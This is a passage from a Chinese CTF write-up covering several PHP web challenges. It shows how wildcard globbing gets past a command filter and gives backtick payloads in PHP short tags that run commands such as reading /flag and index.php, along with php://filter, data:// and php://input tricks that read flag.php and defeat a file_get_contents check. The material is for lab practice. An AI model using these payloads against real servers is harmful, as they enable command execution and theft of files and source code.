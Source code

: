 所以这里只能用“通配符”
这里首先要说明，linux的所有指令都存储在文件夹里
比如常用的“cat”指令
也可以用/bin/cat来代替
然后就是linux的指令以及文件，可以用通配符*和？来代替
星号（ * ）可以用来代替0个及以上任意字符

问号(?)可以用来代替1个任意字符，比如 /???/??? => /bin/cat

（但是代替有个前提，搜索结果唯一或可以同时操作）
所以/bin/cat 可以用/ * * * / *  * *代替然后就是盲猜flag在/flag文件夹下
构造payload:`code=?><?=`/???/??? /????`?>`（就算不猜，也可以猜字符位数然后试？的个数，还有文件的层数）

```
?><?=`/???/???%20/???/???/????/*`?>
php使用短链接含义如下：
<?php echo `/bin/cat /var/www/html/index.php`?>
```

```
?code=?><?=`/???/??? /????`?>
php使用短链接含义如下：
<?php echo `/bin/cat /flag`?>
```

![image-20241119232607994](D:\ctf wp\81-120.assets\image-20241119232607994.png)

## 86.fileclude

![image-20241121164602050](D:\ctf wp\81-120.assets\image-20241121164602050.png)

include(&file)包含用php://filter编码读取flag.php的数据了。同时要满足file_get_contents($file2) === "hello ctf"这一条件。

关于file1：
?file1=php://filter/read=convert.base64-encode/resource=flag.php

关于file2：
file_get_contents是将文件中数据提取为字符串的函数，它与inclue()一样参数为文件名，所以直接file2=hello%20ctf行不通，要用data://协议构造数据流，使它当作php文件。

直接file2=hello%20ctf是不行的，因为file_get_contents()的参数也为文件名，直接file2=hello%20ctf时file2为字符串，需要用data://协议使它当做文件

?file2=data://text,plain,hello ctf

![image-20241121165954239](D:\ctf wp\81-120.assets\image-20241121165954239.png)



或者file2=php://input![image-20241121172125981](D:\ctf wp\81-120.assets\image-20241121172125981.png)

![image-20241121185507918](D:\ctf wp\81-120.assets\image-20241121185507918.png)

## 87.inget

![image-20241121185701464](D:\ctf wp\81-120.assets\image-20241121185701464.png)
